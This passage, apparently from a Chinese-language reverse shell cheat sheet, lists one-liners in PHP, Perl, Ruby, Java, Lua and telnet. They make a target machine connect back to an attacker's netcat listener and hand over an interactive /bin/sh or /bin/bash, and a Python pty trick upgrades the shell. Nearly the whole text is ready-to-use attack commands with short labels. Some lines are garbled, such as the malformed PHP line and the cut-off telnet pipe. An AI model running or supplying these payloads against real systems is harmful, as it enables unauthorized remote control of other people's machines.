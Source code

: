 ```
nc -Lvp 8099
```

靶机

```
php- 'exec("/bin/bash -i >& /dev/tcp/127.0.0.1/8099")' 或者
php -r '$sock=fsockopen("127.0.0.1",8099);exec("/bin/bash -i 0>&3 1>&3 2>&3");'
```

 遇到反弹后不是正常的shell，可用命令：

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

转化为常规的shell。

**方法5：perl**

```
perl -e 'use Socket;$i="127.0.0.1";$p=8099;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**方法6：ruby**

```
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",8099).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f)'
```

**方法7：java** 

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/127.0.0.1/8099;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

**方法8： lua**

```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('127.0.0.1','8099');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

**方法9：telnet**

```
方法一：攻击者主机上打开两个终端分别执行监听：

nc -lvvp 4444
nc -lvvp 5555


目标主机中执行：

telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555



监听两个端口分别用来输入和输出，其中x.x.x.x均为攻击者ip

反弹shell成功后，在监听4444端口的终端中执行命令可以在另一个终端中看到命令执行结果。

方法二：
rm -f /tmp/p; mknod /tmp/p p && telnet x.x.x.x 4444 0/tmp/p
```
